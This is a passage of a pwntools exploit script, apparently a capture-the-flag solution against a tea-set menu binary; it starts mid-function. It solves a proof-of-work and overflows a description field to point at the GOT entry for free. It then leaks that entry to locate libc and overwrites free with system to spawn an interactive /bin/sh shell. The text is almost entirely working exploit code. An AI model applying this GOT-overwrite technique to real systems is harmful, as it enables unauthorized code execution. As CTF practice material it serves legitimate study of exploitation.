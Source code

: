 ```py
    else:
        r.sendlineafter('Modify description? [y/n] ', 'n')

    r.sendlineafter('Modify steep time? [y/n] ', 'n')


def remove(id):
    r.sendlineafter('What do you want to do?', 'r')
    r.sendlineafter('id: ', str(id))


def show():
    r.sendlineafter('What do you want to do?', 'l')

challenge = r.recvline()
response = subprocess.check_output(['../../pow', challenge])
r.send(response)

print 'POW ok'

r.recvuntil('LAMEST TEA SETS')

add('first', 'a')
add('second', 'a')

payload = 'A' * 0x20
payload += p64(1) + p64(e.bss() + 100) + p64(e.got['free']) + p64(0)

modify(0, None, payload)
modify(0, None, 'NOPE')

show()

r.recvuntil('name: ')
r.recvuntil('name: ')
free = r.recvline(keepends=False)
free += '\x00' * (8 - len(free))
free = u64(free)
libc.address = free - libc.symbols['free']

success('libc at {}'.format(hex(libc.address)))

modify(1, p64(libc.symbols['system']), '/bin/sh')

r.interactive()
```
